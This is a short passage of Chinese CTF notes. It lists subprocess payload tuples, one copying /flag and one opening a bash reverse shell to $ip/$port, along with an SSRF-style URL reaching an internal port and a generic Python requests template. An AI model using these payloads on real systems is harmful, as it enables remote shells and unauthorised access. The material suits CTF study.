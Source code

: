 **利用subprocess**

```python
return (subprocess.check_output, (["cp", "/flag", "/app/app.py"],)) # 直接返回命令的标准输出
return (subprocess.run, (["bash", "-c", "bash -i >& /dev/tcp/$ip/$port 0>&1"],)) # 反弹shell
```



### 文件包含漏洞

```Plain
# 直接访问服务器内部某端口文件
http://xxx/image?url=http://localhost:5728/image/flag.jpg 
```

### 爬虫

**网页请求**

**网页请求**

```Python
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36',
    'Accept': 'application/json'
}

proxies = { # 代理查看http包
    'http': 'http://127.0.0.1:8080',
    # 'https': 'https://https_proxy:port'
}

data = {
    "arg1":"val1",
    "arg2": "val2",
    "arg3": f"{a_variable}"
}

# get
response = requests.get("https://url", headers=headers, cookies=cookies)
# post
response = requests.post("http://127.0.0.1:32585", headers=headers, json=data, proxies=proxies) # json形式上传
response = requests.post("http://127.0.0.1:32585", headers=headers, data=data, proxies=proxies) # xx=xx&xx=xx形式上传

cookies = response.cookies # 获取cookies
if response.status_code == 200:
    print(response.text)
    print(cookies.get_dict())
else:
    print(f"状态码: {response.status_code}")
```
